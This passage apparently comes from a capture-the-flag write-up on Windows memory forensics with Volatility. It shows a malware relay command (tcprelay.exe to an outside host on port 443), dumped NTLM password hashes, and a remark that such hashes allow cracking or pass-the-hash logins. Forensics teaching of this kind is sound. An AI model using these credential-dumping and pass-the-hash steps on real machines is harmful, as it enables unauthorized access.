 
```bash
root@tiny:/# strings 2168.dmp | grep tcprelay
tcprelay.exe 192.168.0.** 33** yourcsecret.co.tv 443 
tcprelay.c
C:\Users\John Doe\AppData\Local\Temp\TEMP23\tcprelay.exeJ"
C:\Users\John Doe\AppData\Local\Temp\TEMP23\tcprelay.exeN_
C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exeg[j
C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exe
C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exe
5C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exeg[j
```

As we can see there is IP address and Port - well redacted :) 

# Command and Control 5 Challenge

Find password.... Volatility offer few plugins to acquire passwords hashes.. lsadump, cachedump and hashdump. Tried them all and... 

```bash
root@tiny:/# volatility -f /dumps/ch2.dmp --profile=Win7SP1x86_23418 lsadump
Volatility Foundation Volatility Framework 2.6.1
ERROR   : volatility.debug    : Unable to read LSA secrets from registry
root@tiny:/# volatility -f /dumps/ch2.dmp --profile=Win7SP1x86_23418 cachedump
Volatility Foundation Volatility Framework 2.6.1
ERROR   : volatility.debug    : Unable to read hashes from registry
root@tiny:/# volatility -f /dumps/ch2.dmp --profile=Win7SP1x86_23418 hashdump
Volatility Foundation Volatility Framework 2.6.1
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
John Doe:1000:aad3b435b51404eeaad3b435b51404ee:b9f917853e3dbf6e6831ecce60725930:::
```

THe last plugin was successful and give us all hashes on machine. I quickly lookup all hashes and John Doe's give as clear text. I could also try to crack this passwords with hashcat or john the ripper if I need it. Also as these are NTLM hashes I can use them to authenticate to PC without without knowing password.

# Command and Control 6 Challenge

This challenge require some more set up. Is I will be running sample on real system :) (just VM) First of I need to get download our executable . i used **procdump** plugin for that. I could upload this file to hybrid analysis or maybe virustotal as well but for my exercise I decide to build quickly my lab.

```bash
root@tiny:/# volatility -f /dumps/ch2.dmp --profile=Win7SP1x86_23418 procdump -p 2772 --dump-dir /dumps                                                                                                       
Volatility Foundation Volatility Framework 2.6.1                                                                                                                                                                   
Process(V) ImageBase  Name                 Result
---------- ---------- -------------------- ------                                                        
0x87b6b030 0x00400000 iexplore.exe         OK: executable.2772.exe   
```
